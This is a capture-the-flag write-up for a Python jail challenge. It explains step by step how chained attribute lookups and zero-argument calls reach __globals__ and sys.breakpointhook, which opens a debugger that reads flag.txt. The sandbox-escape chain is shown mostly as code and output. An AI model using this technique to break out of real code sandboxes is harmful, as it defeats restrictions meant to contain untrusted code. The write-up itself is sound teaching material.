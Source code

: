 # Get and Call
## Challenge Code
The challenge provides the following Python code:
```python
obj = 0

while True:
    print(f'obj: {obj}')
    print('1. get attribute')
    print('2. call method')
    inp = input("choose > ")
    if inp == '1':
        obj = getattr(obj, input('attr > '), obj)
    if inp == '2':
        obj = obj()
```
## Objective
We control the input and aim to read the contents of `flag.txt` on the server. The initial state of `obj` is `0`. The challenge loops indefinitely, offering two actions:

1. Look up an attribute from `obj` (and replace `obj` with that value).
2. Call/execute the current `obj` (and replace `obj` with that value).
## Observations
An important observation is that we cannot pass arguments to any function or class; everything we call must accept zero arguments. Consequently, calling `print(open('flag.txt').read())` is not feasible. We need to think of no-args functions to read files. `help()` and `breakpoint()` are potential candidates, as they drop us into an interactive environment and may allow access to files or other commands.
## Initial Exploration
In a local testing environment, we use `dir()` to inspect all attributes of the current object. This reveals hidden attributes and methods, such as `__class__`, which shows the datatype of `obj` (e.g., `<class 'int'>`). We can use `getattr` to manipulate the `obj` variable, thus:

1. Send `'1'` and `'__class__'` to set `obj` to `<class 'int'>`.
2. Repeat the process to get `obj` to `<class 'type'>`.
3. Retrieve `<class 'object'>` using `__base__`.

At this stage, the server has effectively executed:
```python
obj = 0
obj = obj.__class__  # <class 'int'>
obj = obj.__class__  # <class 'type'>
obj = obj.__base__   # <class 'object'>
```

## Retrieving Subclasses
We now retrieve all classes derived from `object` by first accessing the `__subclasses__` attribute and then invoking it:
```python
obj = obj.__subclasses__
obj = obj()  # list of classes
```
To access a specific item, we would typically use an index, but since we can only look up attributes or invoke them, we create an iterator using `__iter__()` and retrieve the next element with `__next__()`.
## Reverse Iteration
To circumvent this, we use `__reversed__()` to iterate in reverse order:
```python
obj = obj.__reversed__
obj = obj()  # reverse iterator object
obj = obj.__next__
obj = obj()  # <class '_distutils_hack.shim'>
```
## Accessing Builtins
We now have `<class '_distutils_hack.shim'>`. While examining this class, we found `__enter__`, which references `__builtins__` and `__globals__`. This is significant because `__builtins__` includes references to `help()` and `breakpoint()`.

The `__builtins__` dictionary has `help` as its last key-value pair. By isolating values and using the reverse iterator trick, we access the `help` function:
```python
obj = obj.__enter__
obj = obj.__builtins__
obj = obj.__reversed__
obj = obj()
obj = obj.__next__
obj = obj()  # help function
obj = obj()  # executes help()
```
## Challenges with Help
Although `help()` typically uses a pager (like `less` or `more`) to display output, which can execute external commands, our challenge environment does not use a pager.
## Pivoting to Globals
I pivoted to `__globals__` within the `distutils` module, which contains keys such as `sys` and `os`. Since these are not the first or last elements, the iterator trick does not directly apply. However, `__globals__` is mutable and supports `popitem()`, which allows us to pop items and eventually make `sys` the last element.

## Handling Popitem
After invoking `popitem()`, `obj` becomes a tuple containing the removed key-value pair. To continue manipulating the `__globals__` dictionary, we need to navigate the class hierarchy again (using `__class__`, `__base__`, and `__subclasses__`) to regain access to `__globals__` after each `popitem()` call:
```python
obj = obj.__enter__
obj = obj.__globals__
obj = obj.popitem
obj = obj()  # returns a tuple: ('remove_shim', <function remove_shim at 0x7fe2594dac20>)
```
## Recovering Sys
After popping enough items, we recover `sys` as the last element:
```python
# <<< many popitem() operations >>>
obj = obj.__globals__
obj = obj.__values__
obj = obj()
obj = obj.__reversed__
obj = obj()
obj = obj.__next__
obj = obj()  # <module 'sys' (built-in)>
```
## Final Exploit
The `sys` module contains the `breakpointhook()` function, equivalent to `breakpoint()`, which we can invoke:
```python
obj = obj.breakpointhook  # <built-in function breakpointhook>
obj = obj()               # executes breakpointhook()
```
This drops us into a debugger where we can execute arbitrary Python code:
```python
obj: <built-in function breakpointhook>
1. get attribute
2. call method
choose > 2
> /app/run(5)<module>()
-> while True:
(Pdb) open('flag.txt').read()
'jail{if_you_find_a_way_to_get_rce_without_breakpoint_or_breakpointhook_then_lmk}\n'
```

## Flag

`jail{if_you_find_a_way_to_get_rce_without_breakpoint_or_breakpointhook_then_lmk}`
